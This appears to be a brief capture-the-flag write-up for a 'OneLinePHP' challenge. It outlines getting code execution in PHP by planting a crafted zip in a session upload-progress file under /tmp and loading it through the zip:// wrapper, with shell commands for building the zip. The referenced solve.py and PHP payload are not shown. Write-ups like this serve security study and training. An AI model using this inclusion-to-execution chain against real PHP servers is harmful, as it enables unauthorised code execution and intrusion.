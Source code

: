 #OneLinePHP

- According to PHPInfo, it supports zip URI. 
- Following old OneLinePHP blogs, we have to create a zip file in /tmp/sess_{session}
- ZIP spec allows that, so we just create a zip file, prepend upload_progress_ and fix offsets 

```bash
zip a.zip s.php
echo -n "upload_progress_" > f
cat f a.zip > b.zip
zip -F b.zip --out c.zip
```
Run solve.py and in another session load zip:///tmp/sess_pepega#s
